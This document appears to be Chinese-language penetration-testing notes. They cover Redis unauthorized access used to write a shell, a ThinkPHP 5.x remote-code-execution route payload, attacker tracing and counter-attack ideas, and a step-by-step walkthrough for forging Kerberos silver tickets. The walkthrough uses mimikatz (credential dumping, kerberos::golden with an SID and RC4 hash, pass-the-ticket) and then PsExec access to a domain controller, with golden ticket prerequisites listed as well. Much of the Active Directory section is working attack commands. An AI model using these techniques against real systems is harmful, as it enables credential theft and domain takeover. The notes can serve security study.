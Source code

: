 # redis未授权
原理：redis使用了默认配置，使端口绑定在了0.0.0.0:6379并且暴露在公网的话
此时我们任意一台带有redis-cli的机器就可以直接访问，跳过登陆验证，从而可以写shell，写入shell的话使用config参数

# thinkphp
5.x通杀原理：路由url从Request::path()中获取，由于var_pathinfo的默认配置为s，我们可利用$_GET['s']来传递路由信息，也可利用pathinfo来传递，但测试时windows环境下会将$_SERVER['pathinfo']中的\替换为/。结合前面分析可得初步利用代码如下：index.php?s=index/\namespace\class/method
正则没写好

# 溯源反制
溯源画像技术---ip注册信息，云服务器，vps，社工库，支付宝，src排行榜
溯源反制技术---直接反制攻击机，钓鱼邮件反制，蜜罐，工具反制（反制awvs，sqlmap，cs等）

# 域
制作白银票据
制作白银票据的条件：
1.域名称
2.域的SID值
3.域的服务账户的密码HASH
4.伪造的用户名，可以是任意用户名，一般伪造administrator
5.需要访问的服务
第一步：
管理员权限运行
mimikatzprivilege::debug #提升权限
sekurlsa::logonpasswords #获取service账户hash 和sid(同一个域下得sid一样)
 
第二步：
清空本地票据缓存
kerberos::purge #清理本地票据缓存
kerberos::list #查看本地保存的票据
 
第三步：
伪造白银票据并导入
kerberos::golden /domain:superman.com /sid:S-1-5-21-259090122-541454442-2960687606 /target:win08.superman.com /rc4:f6f19db774c63e49e9af61346adff204 /service:cifs /user:administrator /ptt
 
第四步：
访问域控的共享目录
dir \\win08\c$
远程登陆，执行命令
PsExec.exe \\win08 cmd.exe
whoami   #查看权限
黄金票据
1.域名称[AD PowerShell模块：（Get-ADDomain）.DNSRoot]
2.域的SID 值[AD PowerShell模块：（Get-ADDomain）.DomainSID.Value]
3.域的KRBTGT账户NTLM密码哈希
4.伪造用户名

impack工具包
getADlogin获取域内所有用户账号


